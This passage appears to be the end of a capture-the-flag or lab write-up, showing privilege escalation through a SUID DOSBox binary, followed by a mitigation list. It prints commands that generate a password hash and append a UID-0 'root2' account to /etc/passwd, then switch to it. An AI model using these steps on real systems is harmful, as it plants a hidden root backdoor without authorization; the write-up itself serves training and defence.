That means we mount root directory to `C:` drive, and we will be able to access filesystem of kali as if we are in Windows. So as we are root let’s write a new user to `/etc/passwd` file:

```bash
openssl passwd "hello"
echo root2:\$1\$zjUmG1DR\$w7YPxgsYlWLUnT5ll/t0h/:0:0:root:/root:/bin/bash >> /etc/passwd
```

![image.png](image%2028.png)

> DOS uses **CRLF (`\r\n`)** as a line terminator, and `dosbox` emulates that behavior when processing `echo` commands. In the GUI, DOSBox may behave slightly differently because the input is being processed interactively. If you manually type the `echo` command in the GUI, it might not enforce the `\r\n` as strictly (or you might be bypassing it unintentionally by how you input the command).
{: .prompt-info } 
We can now see proof.txt easily but first we need to change a shell to root:

```bash
su root2
```

![image.png](image%2029.png)

Now we are root!

## Mitigation

1. **Keep Software Updated** – Regularly update WordPress and all installed plugins to prevent exploitation of known vulnerabilities. Disable unused plugins to reduce attack surface.
2. **Use Least Privilege for Credentials** – Store sensitive credentials securely using environment variables or a vault, and ensure they grant only necessary permissions. Regularly rotate passwords.
3. **Restrict SUID Binaries** – Remove unnecessary SUID permissions from binaries like `dosbox`, and use access control mechanisms to limit their execution.
4. **Secure VNC Access** – Disable VNC if not needed, enforce strong authentication, and use network segmentation to prevent unauthorized access.
5. **Protect `/etc/passwd` File** – Use strong access controls and monitoring tools to detect unauthorized modifications. Consider using `passwd` and `shadow` file separation for additional security.
